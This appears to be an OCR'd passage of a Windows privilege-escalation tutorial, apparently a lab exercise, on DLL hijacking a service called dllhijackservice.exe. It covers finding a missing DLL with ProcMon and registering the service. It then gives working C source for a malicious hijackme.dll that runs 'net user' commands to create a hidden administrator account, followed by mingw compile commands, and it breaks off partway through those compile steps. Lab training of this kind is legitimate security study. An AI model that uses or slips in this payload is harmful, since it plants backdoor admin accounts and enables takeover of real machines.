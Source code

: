 **Steps:**

1. **Identify Missing DLLs:**

   - Use a tool like [ProcMon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to detect which DLLs the service tries to load but cannot find.

   - **Optional Setup:** If you lack administrative privileges to run ProcMon, you can extract `dllhijackservice.exe` and create a service on a machine where you have admin access to investigate its behavior:

     ```bash
     sc create dllsvc binpath="C:\fullpath\to\dllhijackservice.exe"
     ```

   - In ProcMon, configure a filter to focus on the target process:

     - **Column:** Process Name
     - **Relation:** is
     - **Value:** dllhijackservice.exe
     - **Action:** include

   - Upon running the service, ProcMon will show an attempt to load a missing DLL, such as `hijackme.dll`. The service will first search for the DLL in its own directory, for example:

     ```plaintext
     C:\Program Files\DLL Hijack Service\hijackme.dll
     ```

     If the DLL is not found, it will search through directories listed in the system’s **PATH** environment variable.

2. **Create Malicious DLL:**

   - Write a malicious DLL that creates a new user with administrative privileges. Create a file called `hijackme.c` with the following content:

     ```c
     #include <windows.h>

     BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
         if (dwReason == DLL_PROCESS_ATTACH) {
             system("cmd.exe /c net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add");
             ExitProcess(0);
         }
         return TRUE;
     }
     ```

   - Compile the DLL using a cross-compiler:

     - For 64-bit systems:

       ```bash
       x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
       ```

     - For 32-bit systems:
